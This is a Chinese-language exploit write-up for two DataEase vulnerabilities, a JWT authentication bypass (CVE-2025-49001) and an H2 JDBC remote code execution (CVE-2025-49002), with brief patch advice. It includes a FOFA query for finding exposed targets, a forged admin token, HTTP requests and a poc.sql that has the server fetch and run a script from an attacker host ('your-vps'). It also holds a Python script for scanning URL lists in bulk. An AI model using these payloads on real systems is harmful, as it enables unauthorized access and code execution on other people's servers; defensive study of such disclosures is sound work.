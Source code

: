 漏洞介绍：

DataEase 是一款开源的数据分析平台，提供丰富的数据可视化和分析功能，帮助用户轻松地进行数据探索和决策支持，CVE-2025-49001 是由于JWT校验机制错误导致攻击者可伪造JWT令牌绕过身份验证流程，CVE-2025-49002 是由于H2数据库模块没有严格过滤用户输入的JDBC连接参数，可使用大小写绕过补丁。攻击者可利用这些漏洞实现未授权代码执行，威胁用户数据和系统的安全

影响版本：

DataEase <= 2.10.8



## Dataease JWT 认证绕过漏洞（CVE-2025-49001）

复现过程：

CVE-2025-49001中，由于JWT算法实现存在缺陷，导致攻击者可以使用任何密钥来伪造JWT令牌，从而绕过权限校验调用后台相关功能接口，从而则造成代码执行

fofa 搜索语句：title="DataEase"

![图片](%E9%A3%9E%E8%87%B4%E4%BA%91%20DataEase%20Postgresql%20JDBC%20Bypass%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20CVE-2025-49001%E3%80%81CVE-2025-49002.assets/640.webp)

进入BP进行修改接口进行测试，数据包如下

```
GET /de2api/user/info HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: application/json, text/plain, */*
Connection: close
Host: xx.x.xx.xx
out_auth_platform: default
X-DE-TOKEN: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1aWQiOjEsIm9pZCI6MX0.a5QYOfZDYlhAy-zUMYzKBBvCUs1ogZhjwKV5SBTECt8
```

![图片](%E9%A3%9E%E8%87%B4%E4%BA%91%20DataEase%20Postgresql%20JDBC%20Bypass%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20CVE-2025-49001%E3%80%81CVE-2025-49002.assets/640-1751419690960-1.webp)

成功复现

## Dataease H2数据库远程代码执行漏洞（CVE-2025-49002）

1. **H2数据库**：一个轻量级的Java SQL数据库，常作为嵌入式数据库使用
2. **JDBC连接参数**：用于建立数据库连接的配置参数，如URL、用户名、密码等

复现过程

CVE-2025-49002是由于H2数据库模块没有严格过滤用户输入的JDBC连接参数,可使用大小写绕过补丁。攻击者可利用这些漏洞实现未授权代码执行,在这里我们利用该漏洞修改连接参数使其连接到恶意服务器上后进行dns测试展示复现过程

这里使用Github进行下载并搭建，执行完安装命令后，访问地址即可来到应用页面，默认登录账号：admin/DataEase@123456，可以看到当前DataEase版本为2.6.1

![图片](%E9%A3%9E%E8%87%B4%E4%BA%91%20DataEase%20Postgresql%20JDBC%20Bypass%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20CVE-2025-49001%E3%80%81CVE-2025-49002.assets/640-1751419690960-2.webp)

准备两个文件，放在恶意服务下

![图片](%E9%A3%9E%E8%87%B4%E4%BA%91%20DataEase%20Postgresql%20JDBC%20Bypass%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20CVE-2025-49001%E3%80%81CVE-2025-49002.assets/640-1751419690960-3.webp)

evil.xml

```
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">

    <!-- 使用DNSLog外带信息 -->
    <bean class="java.net.InetAddress" factory-method="getByName">
            <constructor-arg value="http://dnslog"/>
    </bean>
</beans>
```

poc.sql

```
CREATE ALIAS CLASS_FOR_NAME FOR 'java.lang.Class.forName(java.lang.String)';
CREATE ALIAS NEW_INSTANCE FOR 'org.springframework.cglib.core.ReflectUtils.newInstance(java.lang.Class, java.lang.Class[], java.lang.Object[])';
CREATE ALIAS UNESCAPE_VALUE FOR 'javax.naming.ldap.Rdn.unescapeValue(java.lang.String)';

SET @url_str='http://your-vps/evil.xml';
SET @url_obj=UNESCAPE_VALUE(@url_str);
SET @context_clazz=CLASS_FOR_NAME('org.springframework.context.support.ClassPathXmlApplicationContext');
SET @string_clazz=CLASS_FOR_NAME('java.lang.String');

CALL NEW_INSTANCE(@context_clazz, ARRAY[@string_clazz], ARRAY[@url_obj]);
```

使用 Python 启动一个简单的 HTTP 服务器：

![图片](%E9%A3%9E%E8%87%B4%E4%BA%91%20DataEase%20Postgresql%20JDBC%20Bypass%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20CVE-2025-49001%E3%80%81CVE-2025-49002.assets/640-1751419690960-4.webp)

现在进入BP改包进行测试

该漏洞的核心payload如下，我们使用它来攻击H2数据库

```
jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://your-vps:2333/poc.sql' 
```

数据包如下

```
POST /de2api/datasource/validate HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate, br, zstd
sec-ch-ua: "Google Chrome";v="135", "Not-A.Brand";v="8", "Chromium";v="135"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
X-DE-TOKEN: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1aWQiOjEsIm9pZCI6MX0.a5QYOfZDYlhAy-zUMYzKBBvCUs1ogZhjwKV5SBTECt8
Accept-Language: zh-CN
Sec-Fetch-Dest: empty
sec-ch-ua-mobile: ?0
Sec-Fetch-Site: same-origin
sec-ch-ua-platform: "Windows"
Content-Type: application/json
Sec-Fetch-Mode: cors
Content-Length: 821

{
    "id": "",
    "name": "11",
    "description": "",
    "type": "h2",
    "apiConfiguration": [],
    "paramsConfiguration": [],
    "enableDataFill": false,
    "configuration": "eyJkYXRhQmFzZSI6IiIsImpkYmMiOiJqZGJjOmgyOm1lbTp0ZXN0ZGI7VFJBQ0VfTEVWRUxfU1lTVEVNX09VVD0zO2luaXQ9UlVuU0NSSVBUIEZST00gJ2h0dHA6Ly95b3VyLXZwczoyMzMzL3BvYy5zcWwnIiwidXJsVHlwZSI6ImpkYmNVcmwiLCJzc2hUeXBlIjoicGFzc3dvcmQiLCJleHRyYVBhcmFtcyI6IiIsInVzZXJuYW1lIjoiMTIzIiwicGFzc3dvcmQiOiIxMjMiLCJob3N0IjoiIiwiYXV0aE1ldGhvZCI6IiIsInBvcnQiOjAsImluaXRpYWxQb29sU2l6ZSI6NSwibWluUG9vbFNpemUiOjUsIm1heFBvb2xTaXplIjo1LCJxdWVyeVRpbWVvdXQiOjMwfQ=="
}
```

![图片](%E9%A3%9E%E8%87%B4%E4%BA%91%20DataEase%20Postgresql%20JDBC%20Bypass%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20CVE-2025-49001%E3%80%81CVE-2025-49002.assets/640-1751419690960-5.webp)

这里小编虽然测试成功了，但是Vps没有显示连接，是个小遗憾，下来再找找问题，真正预期效果如下

Vps收到远程请求

![图片](%E9%A3%9E%E8%87%B4%E4%BA%91%20DataEase%20Postgresql%20JDBC%20Bypass%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20CVE-2025-49001%E3%80%81CVE-2025-49002.assets/640-1751419690960-6.webp)

执行xml中的外链dns

![图片](%E9%A3%9E%E8%87%B4%E4%BA%91%20DataEase%20Postgresql%20JDBC%20Bypass%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20CVE-2025-49001%E3%80%81CVE-2025-49002.assets/640-1751419690960-7.webp)



成功复现

修复意见：

更新至最新安全版本，目前官方已有可更新版本DataEase >= 2.10.10

官方补丁下载地址：

https://github.com/dataease/dataease/releases/tag/v2.10.10

介绍一个检测脚本

使用方法

```
批量检测：
python poc.py -f url.txt
单个检测：
python poc.py -u your-ip
import requests
import urllib3
from urllib.parse import urljoin,quote
import argparse
import ssl
import re
ssl._create_default_https_context = ssl._create_unverified_context
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def read_file(file_path):
    with open(file_path, 'r') as file:
        urls = file.read().splitlines()
    return urls

def check(url):
    protocols = ['http://', 'https://']
    found_vulnerabilities = False

    for protocol in protocols:
        target_url = urljoin(protocol + url.lstrip('http://').lstrip('https://'), "/")
        print(f"Checking {target_url}")

        target_url.rstrip("/")
        target_url = urljoin(target_url, "/de2api/user/info")
        headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36",
            "X-DE-TOKEN": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1aWQiOjEsIm9pZCI6MX0.a5QYOfZDYlhAy-zUMYzKBBvCUs1ogZhjwKV5SBTECt8"
        }
        try:
            response = requests.get(target_url, verify=False, headers=headers)

            if response.status_code == 200 and all(key in response.text for key in('系统管理员','language','oid')):
                print(f"\033[31mFind:{url}:DataEase-CVE-2025-49001-JWTByPass!\033[0m")
                return True
        except Exception as e:
            pass

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("-u", "--url", help="URL")
    parser.add_argument("-f", "--txt", help="file")
    args = parser.parse_args()
    url = args.url
    txt = args.txt
    if url:
        check(url)
    elif txt:
        urls = read_file(txt)
        for url in urls:
            check(url)
    else:
        print("help")
```

检测实例

![图片](%E9%A3%9E%E8%87%B4%E4%BA%91%20DataEase%20Postgresql%20JDBC%20Bypass%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20CVE-2025-49001%E3%80%81CVE-2025-49002.assets/640-1751419690960-8.webp)